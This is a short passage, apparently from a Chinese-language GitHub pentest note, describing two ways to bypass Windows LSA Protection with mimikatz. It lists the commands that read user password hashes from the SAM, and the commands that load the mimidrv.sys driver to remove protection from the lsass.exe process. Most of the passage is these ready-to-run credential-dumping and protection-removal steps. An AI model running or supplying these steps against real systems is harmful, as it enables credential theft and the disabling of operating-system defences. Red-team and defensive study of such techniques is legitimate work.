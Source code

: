 ### 3.lsadump::sam   bypass

mimikatz 运行 lsadump :: sam 从磁盘上的SAM读取凭据，可成功pypass LSA Protection，读取到用户哈希

```
mimikatz # privilege::debug
mimikatz # token::whoami
mimikatz # token::elevate
mimikatz # lsadump::sam
```

![截图](6d197141fd0602ce1e63131a3bcab3b3.png)

### 4.mimidrv.sys   bypass

mimikatz其中的mimidrv.sys驱动程序，可从lsass.exe进程中删除LSA保护，成功bypass LSA Protection。

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
```
